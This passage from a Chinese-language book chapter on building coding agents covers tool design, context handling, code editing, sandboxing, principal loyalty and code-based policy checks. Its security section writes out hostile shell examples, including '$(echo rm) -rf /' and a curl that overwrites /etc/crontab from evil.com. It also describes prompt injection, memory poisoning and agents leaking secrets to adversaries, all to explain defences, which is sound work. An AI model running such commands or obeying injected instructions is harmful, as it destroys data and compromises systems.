比單點熔斷更隱蔽的是死亡螺旋：錯誤路徑上觸發的邏輯自身又呼叫 LLM，再次出錯，連鎖觸發。一個真實的連鎖形態：Agent 因上下文溢位而停止，觸發「結束時自動提交程式碼」的停止掛鉤（Agent 結束時自動執行的清理邏輯），掛鉤呼叫 LLM 生成 commit message，再次上下文溢位，再次觸發掛鉤。防護靠兩條：在錯誤路徑上停用一切會再次呼叫模型的副作用邏輯（寧可丟掉一次輔助功能，如自動記憶提取），以及用遞迴深度計數器偵測並打斷殘餘的連鎖。最後，在所有自動化機制之上還需要全域的終止與升級條件：最大迭代輪數、會話預算上限，以及連續失敗超過閾值時升級到人工干預。
Coding Agent 的實現技巧
上面的工作流程是理想狀態。要讓它在實踐中真正跑起來，還需要幾個具體的實現技巧——在保證思考品質的前提下，把響應速度提上去、把上下文消耗降下來。它們是第二章、第四章討論的通用 Agent 技術在程式設計領域的具體應用。
並行工具呼叫、流式執行與級聯中止。
傳統 Agent 實現往往採用序列模式：生成一個工具呼叫、執行完、拿到結果、再決定下一步。這種嚴格的排隊等待浪費了大量時間。
現代 Coding Agent 應充分利用流式響應：第二章在討論模型輸出順序時介紹了這一機制——第一個工具呼叫的參數一經生成完整、透過校驗，即可立即開始執行，無需等待模型生成後續的工具呼叫。例如，模型在一次推理中要連續輸出搜尋程式碼、查設定檔案、讀日誌三個工具呼叫，第一個呼叫的參數剛一完整透過校驗就能立即啟動，與後兩個呼叫的生成過程重疊進行；彼此獨立的呼叫之間還可並行執行而非排隊等待。這種重疊執行顯著降低了端到端延遲，使 Agent 的響應更加敏捷。
並行執行的另一面是故障處理。每個工具定義應宣告自己是否支援並行執行（預設為否，失敗安全）；當某個呼叫失敗時，透過級聯中止機制終止同一批並行啟動、依賴該結果的其他呼叫，但不波及獨立的呼叫和父級操作——這正是 Harness 工程一節中「故障邊界控制」原則的具體實現。
上下文的精細化管理。
Coding Agent 面臨的根本挑戰是程式碼庫通常很大，但模型上下文視窗有限。即使先進模型號稱支援百萬級 token，把整個程式碼庫一股腦塞進上下文既不經濟也沒必要。智慧的上下文管理需在多個層面展開。
在檔案讀取層面，Agent 不應總是讀取檔案全部內容。對大型檔案，工具應支援按行號範圍讀取特定片段——比如唯讀第 100 到 150 行，而不是把幾千行的檔案全部載入。返回內容時附加行號標註——每行程式碼都以實際行號作為字首。這個看似簡單的設計帶來巨大價值：模型可精確引用「在 src/main.py 的第 42 行」，減少歧義並使後續編輯操作更可靠。
在命令執行層面，終端機輸出的處理同樣需要謹慎。編譯或測試可能產生數千行輸出，如果全部注入上下文會迅速耗盡預算。第四章介紹的長輸出截斷與持久化機制在這裡廣泛應用：保留輸出的前若干行（通常包含錯誤上下文）和後若干行（通常包含錯誤總結），中間以一行提示替代，並說明完整輸出已儲存到臨時檔案供按需檢視。
環境資訊的動態注入。
這是第二章介紹的 Agent 狀態列技術在 Coding Agent 中的集中體現。與通用 Agent 不同，Coding Agent 高度依賴執行環境的狀態。每次推理前應在上下文末尾以 Agent 狀態列形式注入以下關鍵環境資訊：
- 當前工作目錄：確保路徑引用不會出錯
- git 分支：知道自己在主分支還是特性分支上工作
- 最近提交記錄：瞭解專案的演化脈絡
- 未暫存和已暫存的變更概覽：清楚已經做了哪些修改
這些資訊不應硬編碼在靜態系統提示詞中——那樣會破壞 KV Cache 效率——而應作為動態的、追加式的 Agent 狀態列即時生成並注入。透過這種方式，Agent 獲得了「環境感知」能力，每個決策都基於對當前狀態的準確理解，而非過時的假設。
命令執行環境的狀態持久化。
在與程式碼互動時，許多操作依賴環境狀態：切換目錄、啟用虛擬環境、設定環境變數、啟動後臺服務。如果每次命令都在全新 shell 中執行，這些狀態都會丟失——Agent 剛用 cd 切到專案目錄，下一條命令又回到了根目錄，不得不反覆做同樣的設定。更糟糕的是，某些操作（如啟用 Python 虛擬環境）的效果只在當前 shell 會話中有效，無法跨會話傳遞。
因此應維護一個持久化的終端機會話，在 Agent 啟動時建立並在整個互動過程中保持活躍。每次命令都在這個共享終端機中執行，保留工作目錄、環境變數和會話狀態。這種設計更符合人類開發者的工作習慣——我們通常就是在一個長期執行的終端機視窗中工作。當然，Agent 也應保留啟動隔離終端機的能力以支援並行任務，但持久化會話應是預設模式。
即時的語法回饋機制。
這再次體現了 Agent 狀態列技術的價值。Agent 修改程式碼後，不應等到使用者明確要求測試時才檢查語法。更高效的做法是：檔案寫入操作一完成，工具層就自動執行相應的 linter 或語法檢查器，將檢查結果作為工具返回值的一部分呈現給 Agent。如果偵測到語法錯誤，Agent 在下一輪推理中立即看到詳細錯誤資訊——就像程式設計師在 IDE 中打錯一個括號，編輯器立刻畫紅線提醒一樣。這種即時回饋機制顯著降低了錯誤修復成本，因為 Agent 可以在錯誤引入的那一刻就進行修正，而不需要等到執行測試時才發現問題。
這五個實現技巧——並行與流式、上下文管理、環境感知、狀態持久化、即時回饋——共同構成了高效 Coding Agent 的技術基礎。它們不是孤立的最佳化點，而是相互配合的設計決策，共同指向一個目標：讓 Agent 能夠像經驗豐富的開發者那樣流暢地工作。
Coding Agent 中的搜尋工具
在龐大的程式碼庫中定位相關程式碼是 Coding Agent 工作的起點。圖 5-3 對比了幾類互補搜尋工具，說明成熟 Coding Agent 應如何根據任務性質選擇檢索方式。

正規表示式內容匹配（grep/ripgrep）：最傳統的搜尋方式，逐行掃描檔案內容進行模式匹配。當 Agent 知道要查詢的具體文字（函式名、變數名、錯誤訊息）時，能快速準確地定位所有出現位置。正規表示式（用特殊符號描述文字模式的語法，如 def handle.* 匹配所有以 handle 開頭的函式定義）的強大表達能力可以捕捉複雜模式，不僅可以搜尋字面文字，還可以搜尋符合特定結構的程式碼片段。在實際使用中還應支援檔案型別過濾（只搜尋 Python 檔案）和路徑模式過濾（排除測試目錄）以減少噪音。根本侷限在於只能找到文字上匹配的內容，無法理解語義——搜尋「使用者認證」時，無法找到雖然沒有「認證」二字但確實處理登入邏輯的函式。
檔名模式匹配（glob）：不看檔案內容，只在檔案系統的路徑結構中查詢符合模式的檔案。如 **/*.test.ts 遞迴找到所有 TypeScript 測試檔案，src/components/**/Button.tsx 在 components 下任意深度查詢 Button.tsx。速度比內容搜尋快得多（不需要開啟和讀取檔案），是 Agent 探索專案結構的第一步——透過快速掃描整個檔案系統建立專案的組織框架。
語義程式碼搜尋：與前兩種精確匹配方法不同，試圖理解查詢和程式碼的「意義」。需解決兩個關鍵問題：
- 結構感知的分塊：程式碼有嚴格的語法結構，應按函式、類、方法等完整語義單元切分，而非按固定字元數盲目切割。
- 混合檢索（第三章詳細介紹了這套技術棧）：向量嵌入（稠密嵌入）擅長找到語義相似但用詞不同的程式碼（比如搜尋「驗證使用者身份」能找到名為
check_credentials的函式），關鍵詞匹配擅長精確匹配函式名和變數名。兩者並行執行後透過重排序模型（reranker，用交叉編碼器對候選結果做精細的相關性排序）合併排序，互補覆蓋。
語義搜尋特別適合探索性任務，如在不熟悉的程式碼庫中尋找「與資料庫互動」或「處理使用者輸入驗證」相關的程式碼。
不過，是否值得為語義搜尋建立嵌入索引，業界存在明顯的路線之爭。以 Claude Code 為代表的終端機型 Agent 刻意不建嵌入索引，純靠 agentic 的 grep + glob 現場檢索——這樣既不必維護隨程式碼演化而不斷陳舊的索引、也省掉了一整套索引基礎設施。Cursor 這類 IDE 型工具早期則走相反路線：願意為跨檔案的語義召回付出建索引的成本，靠嵌入索引在大型程式碼庫中快速找到語義相關但用詞不同的片段。目前 Cursor 等 IDE 也改用 grep + glob 現場檢索了。
符號級定義與引用查詢：類似 IDE 的「跳轉到定義」「查詢所有引用」能力，能區分同名符號的定義和呼叫——例如它知道 authenticate 在第 42 行是函式定義、在第 189 行是呼叫，而文字搜尋只能找到所有包含該字串的行。目前主流 coding agent 並未採用這一方法。
這四種搜尋方式構成互補的工具箱，實踐中往往組合使用：先用語義搜尋找到相關模組，再用正則匹配精確定位具體程式碼行，最後透過符號搜尋追蹤呼叫鏈——「從粗到細、從語義到語法」的漸進式策略。
Coding Agent 中的檔案編輯工具
檔案編輯的難點不在於操作本身，而在於如何讓 LLM 以高效又可靠的方式告訴系統「改哪裡、怎麼改」。圖 5-4 對比了五種檔案編輯方案，展示人類語言表達與機器精確執行之間的根本張力。

差異描述 + Apply Model：模型不是直接指定如何編輯檔案，而是生成一份變更描述——可以是類似 git diff（即 git diff 命令輸出的那種「刪了哪幾行、加了哪幾行」的格式）的差異文字，也可以是帶省略標記的程式碼骨架（用「此處保持不變」之類的註釋跳過未修改部分）。這份描述隨後交給專門的「應用模型」（Apply Model）——通常是另一個更小、更快的 LLM——負責與原檔案合併、產出完整的新檔案。這種分離關注點的設計讓主模型專注高層程式碼邏輯、應用模型專注底層文字操作。樸素實現的脆弱性在於合併環節：變更描述與檔案實際程式碼有微小出入時需判斷是否同一位置，存在多個相似程式碼片段時可能合併到錯誤的地方。Cursor 是這條路線持續演進的代表：主模型輸出帶省略標記的程式碼骨架，由專門訓練的 fast-apply 小模型重寫出完整檔案，並藉助推測解碼（speculative decoding，以原檔案內容為草稿並行驗證）把合併速度做到每秒上千 token——用工程投入換取了這條路線的可靠性和速度。
舊字串到新字串（Old String → New String）：Claude Code 採用的方案。模型提供 old string（要被替換的原文）和 new string（替換後的新文字），框架執行簡單的字串查詢替換。優勢是可預測性和透明性——old string 在檔案中存在且唯一則成功，否則失敗，不存在模稜兩可。代價是刪除大段程式碼時需完整輸出所有原始內容，一個字元的偏差就會匹配失敗；同一程式碼出現多次時需提供更長的上下文來消除歧義。
行號定位（Old Line Numbers → New String）：模型指定「刪除第 X 到 Y 行，插入新內容」。行號精確無歧義，大段刪除只需兩個數字。但模型「數」行號容易出錯，尤其檔案很長時。實踐中通常在讀取檔案時給每行加上行號標註來緩解，但每次編輯後後續行號都會變化，這就限制了多處編輯的並行性。
類 Vim 編輯命令：借鑑 Vim 編輯器的命令體系，支援複製、剪下、貼上等豐富操作。對重組程式碼（將函式從一處移動到另一處）非常高效。但命令語法的學習負擔較大，最強的模型能較好使用，較小的模型錯誤率則會明顯上升。這種方法對模型一次思考輸出多個編輯命令並不友好，因為 Vim 每次編輯後檔案內容和行號都會發生改變，而模型很難提前計算修改後的行號。更深層的思考是，Vim 等程式碼編輯器是為人類設計的，人類需要不斷看到當前的狀態，並規劃下一步的簡單操作（例如，寫一行程式碼，或者刪除幾行程式碼）。但今天模型的工作模式是經過較長時間的思考，再批次進行較為複雜的操作（例如，寫幾百行程式碼）。
字串首尾匹配（Old String Start + End → New String）：可以看作舊字串替換方案的改進。模型不需要輸出完整的 old string，只需提供要刪除內容的開頭幾行和結尾幾行，中間部分可省略。框架透過匹配這個開頭和結尾來定位替換區域，只要這對「首尾」組合在檔案中唯一就能準確定位。這種方案綜合了文字替換的可靠性和行號方案的效率——處理大段程式碼刪除時無需輸出數百行原始程式碼，只需展示邊界即可。同時因為仍然基於內容匹配而非抽象行號，模型犯錯的風險相對較低。
Coding Agent 的安全
本節把 Coding Agent 的安全防線收攏為一條完整的敘事線：先勾勒威脅模型——哪些風險最致命；再討論隔離兜底——沙盒的網路出口、檔案系統與資源限額；然後是執行期防禦——命令的語義解析，以及讓安全檢查「隱形」的推測性執行；最後落到信任與忠誠——多方委託下 Agent 為誰效忠，以及當 AI 寫的程式碼本身不可信時，如何把信任邊界下移到資料層。其中威脅模型、忠誠度與信任邊界的討論對所有 Agent 通用，沙盒與命令解析是 Coding Agent 特有的增量。
這種「主權智慧體」範式也帶來了嚴峻的安全挑戰。Coding Agent 擁有讀寫檔案、執行命令、訪問網路的權限，這意味著一旦被注入惡意指令就可能造成不可逆的損失。開發者、獨立研究者 Simon Willison 將這種風險概括為著名的「致命三要素」——三個要素齊備，就構成了一條完整的攻擊閉環，系統即屬高危：
- 訪問私有資料——Agent 能讀取使用者檔案和密碼管理器
- 暴露於不受信任內容——處理的郵件和網頁可能包含惡意載荷
- 具備外部通訊能力——能傳送郵件和執行命令
攻擊路徑由此閉合：惡意指令藏在不受信任的內容中進入 Agent，驅使它讀取私有資料，再經對外通道傳出。注意，三要素齊備本身就已足夠危險，不需要任何額外條件。在此基礎上，筆者補充第四個維度——持久記憶。它不是並列的第四個必要條件，而是攻擊的放大器：攻擊者可將看似無害的偏見或惡意指令寫入 Agent 的長期記憶，跨會話潛伏，在合適的時機再觸發，把拋棄式攻擊升級為長期的潛伏與放大。
這四點可以概括為四類邊界：資料邊界、輸入信任邊界、輸出影響邊界、跨會話邊界。OpenClaw 這樣的全權限本地 Agent 恰四者兼備，安全防護因此成為此類 Agent 必須正視的核心挑戰。
這也解釋了為什麼閉源的商業 Agent（如 Claude Cowork（Anthropic 面向知識工作的通用 Agent，複用 Claude Code 的 agentic 架構，能讀寫本地檔案、跨多個辦公應用完成多步任務）選擇了保守的權限策略。面對提示注入威脅，單靠輸入過濾基本擋不住。重點不是識別所有攻擊，而是讓 Agent 即使被注入，也沒有機會把危險動作真正執行出去。這正是第一章三層護欄的用武之地。相比其他 Agent，Coding Agent 特別需要注意：
- 命令語義解析——Shell 命令的組合爆炸使關鍵字黑名單形同虛設，必須在語義層理解命令的真實效果（本節後文將展開）；
- 沙盒隔離與網路出口控制——程式碼執行是 Coding Agent 獨有的攻擊面，隔離級別與出口策略的工程選型見本節後文；
- 持久記憶的跨會話防線——這是本章在致命三要素之外強調的擴充項：寫入長期記憶的內容需經過與外部內容同等的信任審查，避免惡意指令潛伏在
MEMORY.md中長期生效。
這三項補充措施分別落在驗證、執行和資料三個層面，與前兩章的防禦體系互為補充。這些策略不能完全消除風險，但能縮小 Agent 的攻擊面。
隔離兜底：程式碼執行沙盒的工程選型。
- 網路出口控制。這是最容易被忽視、卻最關鍵的一項：預設斷網，按需透過白名單代理放行有限目的地（套件管理源、文件站點、任務明確需要的 API）。回看致命三要素的第 3 條——「具備外部通訊能力」——網路出口控制正是它的執行面防禦：即使提示注入成功、惡意程式碼在沙箱內讀到了敏感資料，沒有出口就傳不出去。
- 檔案系統隔離範圍。原始碼目錄以唯讀方式掛載（Agent 透過編輯工具修改程式碼，生成的修補程式經審查後落盤，或將副本掛入可寫工作區），單獨的可寫工作區目錄承載生成物和中間檔案；憑證類檔案（
~/.ssh、金鑰、token）根本不掛載進沙箱。 - 資源限額與逾時。CPU、記憶體、磁碟配額加逾時，防禦死迴圈、fork 炸彈（透過瘋狂自我複製行程拖垮系統）和無限寫盤。一個實踐細節：逾時和超限應向 Agent 返回結構化錯誤（「執行超過 120 秒被終止，最後輸出如下……」）而非靜默殺死行程，讓 Agent 有機會在下一輪修正策略。
安全：語義解析而非關鍵字黑名單。
第一章提到驗證層應採用「基於理解而非匹配」的安全機制，Shell 命令安全校驗是這一原則最具挑戰性的應用場景。簡單的關鍵字黑名單無法應對 Shell 的組合爆炸——命令可以透過管道、子 shell、變數展開等方式繞過任何靜態規則（例如 rm 被禁了，攻擊者可以用 $(echo rm) -rf / 繞過）。生產級 Harness 採用語義解析：理解每個命令的參數型別和消費規則（哪些標誌位會消費下一個參數），識別出「某個看似無害的標誌位實際上會消費下一個參數從而隱藏危險載荷」這類攻擊模式。例如，find / -name '*.log' -exec rm {} \; 透過合法的 find 命令參數嵌入了 rm 刪除操作；又如 curl -o /etc/crontab http://evil.com/payload，看似下載檔案實則覆蓋系統定時任務。語義解析能識別出這些巢狀的危險操作，而簡單的命令黑名單無法捕獲。這種基於理解而非匹配的安全機制，是“約束”功能的高階實現。
Agent 為誰效忠：多方委託下的忠誠度。
前面的安全機制防的是「命令被做壞」，還有一類更微妙的安全問題——委託方忠誠（principal loyalty）：Agent 到底站在誰那一邊。模型在訓練時被灌輸了一條樸素的預設原則——「誰在跟我說話，我就盡力幫誰」；但真實的 Agent 常處在多方委託的處境裡：它代表主人行事，打交道的卻是利益相反的第三方——一個替你砍價的 Agent，對面坐著的不是「需要被幫助的使用者」，而是交涉對手。此時「誰說話幫誰」就是危險的預設設定：對手只要開口，就可能把 Agent 策反。
把前沿模型放進這種處境實測，會看到一條清晰的忠誠度光譜，而且兩端都會翻車[2]：一端是太老實，把主人的私密資訊（比如「我方底價是 12000」）直接抖給對手，被反覆施壓幾輪就繳械讓步；另一端是太多疑，連主人正當的請求也一概拒絕，反而沒法完成任務。真正難的是，這兩種失敗是一根蹺蹺板——把洩密堵死往往就滑向過度拒絕，很難兩全。
這對 Coding Agent 尤其貼切：倉庫裡讀到的不可信內容、某個工具返回的輸出、第三方 MCP 伺服器發來的指令，都是試圖讓 Agent 倒戈的「對手」——提示注入本質上就是一次策反（第二、四章）。因此 Harness 層要把「忠誠物件」顯式釘死：主人的指令優先順序最高，一切來自外部互動方的內容都預設降格為「可參考、但不具備指令效力」的資料。落到系統提示上，一套行之有效的忠誠度守則是：保護主人的私密資訊乃至它的「存在性」；拒絕時不逐條念出拒絕清單（那本身就在洩露）；私下的底線不等於對外的立場；只執行主人明確、具體的指令；頂住重複施壓。本質上，這是在用 Harness 為模型補上一條它預設沒有的立場：對主人絕對忠誠，對外部互動方保持審慎。
程式碼：通用 Agent 的元能力
前一部分展示瞭如何建構一個可靠的 Coding Agent——從架構設計到工具實現再到 Harness 工程。但程式碼生成的價值遠不止於寫程式。
什麼是「元能力」？ 普通能力是 Agent 能做某件具體的事——回答問題、呼叫某個 API、生成一段文字。元能力（meta-capability）是一種「能創造其他能力」的能力：Agent 用它當場寫出新工具、新約束、新表達形式來完成任務，而不必事先把所有能力都預製好。程式碼生成正是這樣的元能力——它精確、可執行、可組合，因此既能產出新工具（指令碼、API 呼叫序列），也能產出新約束（斷言、校驗規則），還能產出新的表達形態（HTML 表單、PPT、影片幀）。
正因如此，程式碼在 Agent 體系中扮演的角色遠超「寫程式」。接下來六節就分別展示這種元能力在程式設計之外的六個發揮方向。這六個方向並非平行羅列，而是按「元能力作用物件」由內向外組織：
- 思維本身——用程式碼替代易錯的自然語言推理（思考工具）；
- 業務規則——把模糊的政策編碼為可執行約束（業務規則約束）；
- 內容呈現——生成 PPT、影片與視覺化產物（多媒體生成）；
- 系統介面——橋接異構 API，自動適應資料格式演化（系統介面卡）；
- 使用者介面——動態構造表單與互動介面（生成式 UI）；
- Agent 自身——用程式碼創造或修復新 Agent，形成自舉。
程式碼作為思考工具
LLM 在自然語言理解和生成上表現驚人，但在精確計算、符號操作或嚴格邏輯推導上卻有根本短板。原因在於：模型思考本質上是機率性的、近似的，而數學和邏輯問題要求確定性的、精確的答案。用一個具體對比說明：
問題："一個班有 40 名學生，其中 60% 選修了數學，45% 選修了物理，25% 兩門都選了。
只選了物理沒選數學的有多少人？"
純自然語言推理（容易出錯）： 程式碼推理（精確可驗證）：
"60%選數學 = 24人， math = int(40 * 0.60) # 24
45%選物理 = 18人， phys = int(40 * 0.45) # 18
25%都選 = 10人， both = int(40 * 0.25) # 10
只選物理 = 24 - 10 = 14人" only_phys = phys - both # 8
→ 誤從數學人數中減，答案錯誤 → print(only_phys) # 8 ✓讓 LLM 負責理解問題並寫出程式碼，讓程式碼直譯器負責精確計算——這種分工讓兩者各司其職。
Mathematica 創始人 Stephen Wolfram 對此提出了深刻洞察。在 LLM 出現之前，已經存在一類能做精確數學計算的系統——它們使用符號計算（Symbolic Computation）的方式工作，即用數學符號而非近似數值來處理表示式。例如，普通計算器會把 算成 1.414，但符號計算系統會保持 的精確形式，只在需要時才轉為小數。Wolfram 建立的 Wolfram Alpha 就是這麼系統，使用者輸入數學問題，它返回精確答案。然而它的自然語言理解相當脆弱、覆蓋面也窄——它依賴一套內建的語法解析，能識別的問法有限，問法稍作改變就可能解析失敗，更無法處理開放域的多步推理。LLM 恰好彌補了這個短板——它擅長理解各種自然語言表達，但不擅長精確計算。新的協同模式是：讓 LLM 負責理解使用者的自然語言問題，識別其中的數學或邏輯結構，並轉化為形式化語言（如 Mathematica 語言或 Python 的 SymPy 庫）；然後交給專門的符號計算引擎或約束求解器執行，獲得精確結果。
實驗 5-3 ★★：使用程式碼生成工具提升數學解題能力
實驗目標：驗證 Agent 透過 Code Interpreter 輔助數學思考的準確性提升。
技術方案：為 Agent 配備安裝了 sympy、numpy、scipy 等數學庫的 Python 沙盒。Agent 遇到數學問題時將其形式化為 Python 程式碼：sympy 進行符號計算（微積分、方程求解），scipy 進行數值最佳化，numpy 進行矩陣運算。生成的程式碼在沙盒中執行返回精確結果。
驗收標準：使用 AIME 風格題目（對標美國數學邀請賽）評測。對比純思維鏈思考和程式碼輔助思考的準確率，要求程式碼輔助模式顯著更高。檢查程式碼是否正確使用數學庫，求解過程是否邏輯清晰。
實驗 5-4 ★★：使用程式碼生成工具提升邏輯思考能力
實驗目標：評估 Agent 透過約束求解程式碼輔助邏輯思考的能力。
技術方案：為 Agent 配備包含 python-constraint 庫的 Code Interpreter。Agent 將邏輯謎題（如騎士與無賴問題）轉化為形式化約束定義：識別所有變數（每個島民身份）、約束條件（「騎士說真話」 等推導），定義約束並呼叫求解器搜尋滿足所有約束的解。
驗收標準：使用 K&K Puzzle 資料集 評測，程式碼輔助模式求解準確率達 90% 以上，顯著高於純思考模式。
這個實驗還揭示了一個更普遍的規律：模型與鷹架（harness）之間是此消彼長的關係。模型足夠強時，鷹架可以更薄——模型自己就能把邏輯想對，程式碼求解器帶來的增益隨之收窄；模型不夠強時，就得在鷹架裡做更多事情——把關鍵的邏輯推理交給程式碼和約束求解器來兜住正確性。正因如此，本實驗刻意選用能力較弱的模型來放大這一對照：在較弱的模型上，純思考模式會頻繁算錯，程式碼輔助能把準確率顯著拉高；而換成足夠強的思考模型，純思考往往就能解出全部謎題，程式碼輔助的增益便收斂到接近零。所以鷹架該做多厚，取決於你手上模型的能力邊界——這也是評估一項 Agent 技術時容易被忽視的前提：同一套鷹架，配上不同能力的模型，得到的結論可能截然不同。
程式碼作為業務規則的約束
這一節是對前面 Harness 工程的直接回應。Harness 的核心原則之一是「約束：編碼化而非文件化」——將規則從自然語言文件轉化為可執行的程式碼，使其成為系統行為的強制約束而非建議性指南。程式碼生成使 Agent 能夠自主完成這個轉化過程。
業務規則、辦事流程、決策邏輯如果僅用自然語言描述，往往充滿歧義。什麼是「合理的退款請求」？什麼算「緊急情況」？這些概念的邊界在自然語言中很難界定——「購買後 7 天內可退款」看似清楚，但「7 天」是自然日還是工作日？「購買」是下單時間還是發貨時間？相比之下，程式碼提供了無歧義的、可執行的知識表達方式——要麼成功執行，要麼丟擲錯誤，不存在模稜兩可。
精確表達複雜業務規則。
自然語言規則 vs 程式碼化規則：互補而非替代
將規則寫在系統提示詞中的優勢：模型可基於規則向使用者解釋政策；可根據規則尋找變通方案（如 「改簽而非取消」）；可在呼叫工具前初步判斷可行。
將規則程式碼化為校驗工具的優勢：程式碼邏輯的精確性和無歧義性——不會出現 「理解偏差」；程式碼執行的確定性——相同輸入必產生相同輸出；特別適合複雜規則組合——多條件布林組合、時間計算、跨資料來源驗證。
實踐中應結合使用：系統提示詞包含自然語言規則供理解和溝通，關鍵決策點配備程式碼化校驗工具作為「守門員」確保合規性。
程式碼化規則的真正價值不在於最佳化 token 效率，而在於防止不可逆的錯誤操作——取消訂單、轉出資金、刪除資料，這些操作一旦執行就無法撤銷。程式碼化校驗在操作前設定最後一道防線，這種安全保障的價值遠超其實現成本。
合併校驗與執行：checklist 引導思考，真值校驗守門
與其設計獨立校驗工具，不如讓執行工具內部先校驗。以 τ-bench（tau-bench，一個模擬航空、電商客服場景，專門評測 Agent 工具呼叫與政策遵守能力的基準測試）中的航空公司取消政策為例：
def cancel_reservation(
reservation_id: str,
cancellation_reason: str, # "change_of_plan", "airline_cancelled", "other"
expected_cabin_class: str = None, # 可選：模型自查用，服務端以資料庫真值複核
expected_has_insurance: bool = None # 可選：模型自查用，同上
) -> dict:
"""
取消航班預訂。
取消政策（服務端根據資料庫真值強制執行）：
- 規則 1: 已使用任何航段的訂單不可取消
- 規則 2: 預訂後 24 小時內可無條件取消
- 規則 3: 航空公司取消的航班總可取消
- 規則 4: 商務艙總可取消
- 規則 5: 基礎經濟艙和經濟艙需購買旅行保險才可取消
呼叫前請先查詢訂單詳情，逐條核對上述政策；expected_* 參數用於
陳述你的判斷依據，僅供服務端比對與審計，不影響政策裁決。
"""
# 所有政策事實一律從資料庫讀取，絕不採信模型自報的值
r = db.get_reservation(reservation_id)
now = server_clock.now() # 服務端時鐘，而非模型提供
# 模型自報值與真值不一致時記錄告警，用於發現模型的錯誤認知或潛在注入
if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)
if r.any_segment_used:
return {"success": False, "reason": "Cannot cancel with used segments"}
hours_since_booking = (now - r.booking_time).total_seconds() / 3600
if hours_since_booking < 0:
return {"success": False, "reason": "Booking time is in the future"}
if hours_since_booking <= 24:
execute_cancellation(reservation_id)
return {"success": True, "reason": "Cancelled within 24-hour window"}
if r.flight_status == "cancelled_by_airline":
execute_cancellation(reservation_id)
return {"success": True, "reason": "Airline cancelled flight"}
if r.cabin_class == "business":
execute_cancellation(reservation_id)
return {"success": True, "reason": "Business class cancellation"}
if r.cabin_class in ["basic_economy", "economy"]:
if r.has_insurance:
execute_cancellation(reservation_id)
return {"success": True, "reason": f"{r.cabin_class} with insurance"}
return {"success": False, "reason": f"{r.cabin_class} requires insurance"}
return {"success": False, "reason": "Does not meet cancellation policy"}這個設計的價值要分兩層來看。
第一層：參數作為思考的 checklist。工具描述中列出了完整的取消政策，並要求模型「呼叫前先查詢訂單詳情、逐條核對」；可選的 expected_* 參數進一步促使模型把自己的判斷依據顯式寫出來。為了填好這些參數，模型必須先呼叫查詢工具獲取訂單詳情，逐一確認每個條件——填寫參數的過程本質上是一個強制性 checklist。當模型查到艙位是經濟艙且未購保險時，很可能在準備呼叫的過程中就注意到規則 5，從而根本不會發起呼叫，而是直接告訴使用者「經濟艙未購保險無法取消，可考慮購買保險後再取消或改簽」。這一層的價值在於引導思考、減少無效呼叫；但它不承擔安全責任——expected_* 參數只是模型的自我陳述，服務端從不把它當作事實。
第二層：服務端真值校驗才是守門員。注意程式碼中的關鍵設計：艙位等級、保險狀態、預訂時間、航段使用情況、航班狀態，全部由服務端查詢資料庫獲得；當前時間來自服務端時鐘。沒有任何一條政策事實來自模型自報的參數。這不是多餘的謹慎：模型可能產生幻覺，也可能被提示注入操縱——正如前文「致命三要素」所分析的，同一上下文中的 Agent 難以自證清白。如果把 cabin_class、has_insurance 乃至 current_time 設計成由模型填寫的參數，模型只要報錯（或被誘導報錯）一個值，「守門員」就形同虛設。最後一道防線必須建立在模型無法偽造的資料之上——這與前文「關鍵操作需要獨立驗證」的立場一脈相承：獨立性不僅指獨立的模型，更指獨立的資料來源。
